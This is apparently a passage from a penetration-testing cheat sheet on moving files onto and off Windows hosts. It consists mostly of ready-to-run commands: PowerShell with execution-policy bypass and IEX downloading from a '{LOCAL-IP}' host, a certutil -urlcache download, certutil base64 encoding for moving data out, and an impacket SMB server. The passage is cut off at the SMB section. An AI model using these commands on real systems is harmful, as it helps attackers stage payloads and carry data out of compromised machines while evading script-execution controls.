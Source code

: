     powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
------------------------------------------------------------------------------------------------------------------

</br>

USING CMD - 
------------------------------------------------------------------------------------------------------------------

**Web Content Download**
    
    powershell.exe -c (new-object System.Net.WebClient).DownloadFile('http://10{LOCAL-IP}/demo.txt','\users\public\demo.txt')

**Web Content Download**

    powershell.exe -c "Import-Module BitsTransfer; Start-BitsTransfer -Source 'http://{LOCAL-IP}/demo.txt' -Destination '\users\public\demo.txt'"

**Web Content Download**
    
    powershell.exe -c "$webClient = New-Object System.Net.WebClient; $webClient.DownloadFile('http://{LOCAL-IP}:80/demo.txt','\users\public\demo.txt')"

**Web Content Download**
    
    powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile "IEX(New-Object System.Net.WebClient).downloadFile('http://{LOCAL-IP}/demo.txt','\users\public\demo.txt')"

------------------------------------------------------------------------------------------------------------------

</br>

USING CERTUTIL - 
------------------------------------------------------------------------------------------------------------------

**Web Content Download**
    
    certutil.exe -urlcache -split -f "http://{LOCAL-IP}/demo.txt" demo.txt

**encode content to base64**

    certutil.exe -encode c:demo.txt out.b64 & more .\out.b64

decode with this command or use online base64 decoder

    echo "base64_value==" | base64 -d > demo.txt

------------------------------------------------------------------------------------------------------------------

</br>

USING SMB - 
------------------------------------------------------------------------------------------------------------------

**SMB SERVER -**

**Start normal SMB Server**
    
    impacket-smbserver share .

**If version error**
    
